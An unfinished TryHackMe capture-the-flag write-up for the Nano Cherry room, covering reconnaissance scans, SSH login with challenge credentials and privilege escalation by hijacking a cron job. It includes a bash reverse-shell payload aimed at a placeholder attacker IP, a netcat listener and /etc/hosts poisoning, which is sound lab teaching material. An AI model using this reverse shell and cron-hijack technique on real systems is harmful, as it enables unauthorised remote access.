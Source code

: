 # Tryhackme NanoCherryCTF

## What is it ?

A writeup for [tryhackme Nano Cherry CTF](https://tryhackme.com/r/room/nanocherryctf)
This writeup is not complete as I still trying to solve the challenge

## Initial foothold

### Nmap discovery :

```bash
┌──(david㉿kali)-[~]
└─$ sudo nmap -p- -sV -sC 10.10.68.252 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-06 13:43 CEST
Nmap scan report for cherryontop.thm (10.10.68.252)
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:e6:fd:19:23:a3:b1:40:77:1c:a4:c4:2f:e6:d3:4b (ECDSA)
|_  256 15:2b:23:73:3f:c8:8a:a3:b4:aa:1d:ae:70:d4:5f:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Cherry on Top Ice Cream Shop
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.79 seconds
```
### Directory scan with gobuster

```bash
┌──(david㉿kali)-[~]
└─$ gobuster dir -u http://10.10.68.252 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.68.252
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.68.252/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.68.252/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.68.252/js/]
/bootstrap            (Status: 301) [Size: 316] [--> http://10.10.68.252/bootstrap/]
/jquery               (Status: 301) [Size: 313] [--> http://10.10.68.252/jquery/]
/server-status        (Status: 403) [Size: 277]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### Virtual host scan with gobuster 

```bash
┌──(david㉿kali)-[~/tryhackme_ctf]
└─$ gobuster vhost -u http://cherryontop.thm/ -w /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt --append-domain 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://cherryontop.thm/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: nano.cherryontop.thm Status: 200 [Size: 10718]
```

We found one subdomain ``nano.cherryontop.thm`` we add it to ``/etc/hosts`` :
```bash
echo '10.10.68.252 nano.cherryontop.thm' | sudo tee -a /etc/hosts
```

### Connect via ssh to the machine with the credentials provided in the challenge 

Username: notsus
Password: dontbeascriptkiddie

```bash
┌──(david㉿kali)-[~/tryhackme_ctf]
└─$ ssh notsus@10.10.68.252
```
In the home directory there's two files backdoor.mp4 and youFoundIt.txt

We cat the txt file :

```bash
$ cat youFoundIt.txt
Hey good work hacker. Glad you made it this far!

From here, we should be able to hit Bob-Boba where it hurts! Could you find a way to escalate your privileges vertically to access his account?

Keep your's eyes peeled and don't be a script kiddie!
```
So we know we have to escalte to ``Bob-Boba`` user !

I copied with scp the backdoor.mp4 file into my local computer :

```bash
┌──(david㉿kali)-[~/tryhackme/NanoCherryCTF]
└─$ scp notsus@10.10.68.252:/home/.notsus/backdoor.mp4 /home/david/tryhackme/NanoCherryCTF
```
And check the exif data with exiftool but couldn't find anything relevant.

## Privilege escalation to Bob-Boba user :

I start a simple python server to retrieve the linpeas executable :

On my local machine : 

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ python3 -m http.server                                       
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.68.252 - - [06/Jul/2024 14:30:46] "GET /linpeas.sh HTTP/1.1" 200 -
```
On the remote host :
```bash
$ wget http://10.11.92.0:8000/linpeas.sh
```
From the LinPeas output I found a interesting cron job run as bob-boba :
![LinPeas output](https://image.noelshack.com/fichiers/2024/27/6/1720271405-screenshot-from-2024-07-06-15-08-20.png)

Unfortunately we cannot acces the file :
```bash
$ ls -la /home/bob-boba/coinflip.sh    
ls: cannot access '/home/bob-boba/coinflip.sh': Permission denied
```
But we can modify /etc/hosts file 
First in our local machine we create the same structured folder as curled by the cron job :

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ mkdir -p home/bob-boba        
```
Then we add our payload (a reverse shell in bash) to our coinflip.sh file :

```bash                                                                               
┌──(david㉿kali)-[~/tryhackme/home/bob-boba]
└─$ echo 'sh -i >& /dev/tcp/YOUR_IP/5555 0>&1' > coinflip.sh
```

We start a simple python server on port 8000 at the root of our folder :

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ python3 -m http.server 8000
*Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Then we set a listener with netcat :
```bash
┌──(david㉿kali)-[~]
└─$ nc -lnvp 5555
listening on [any] 5555 ...
```

Then we modify the remote host /etc/hosts file and add the following entrance :
YOUR_IP cherryontop.tld

After a few seconds you will receive a connection on our netcat listener congrats we have escalated to bob-boba :

![Reverse shell](https://www.noelshack.com/2024-27-6-1720272556-screenshot-from-2024-07-06-15-28-38.png)

We stabilize our reverse shell as stated in this [page](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Here we have the flag number 3 :

![Flag number 3](https://image.noelshack.com/fichiers/2024/27/6/1720272868-screenshot-from-2024-07-06-15-34-11.png)

## XSS on content.php page 
![XSS](https://image.noelshack.com/fichiers/2024/27/6/1720277908-screenshot-from-2024-07-06-16-58-01.jpg)

## Acces the admin portal 

Back on the foothold we had discovered a subdomain : nano.cherryontop.thm
On this subdomain there is a admin portal :

![admin portal](https://image.noelshack.com/fichiers/2024/27/6/1720273732-screenshot-from-2024-07-06-15-48-27.jpg)

Let's try to see if there is an SQLi. We open burpsuite and send the request to the repeater then save it.
```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ sqlmap -r request.req     
```
Result in nothing. 



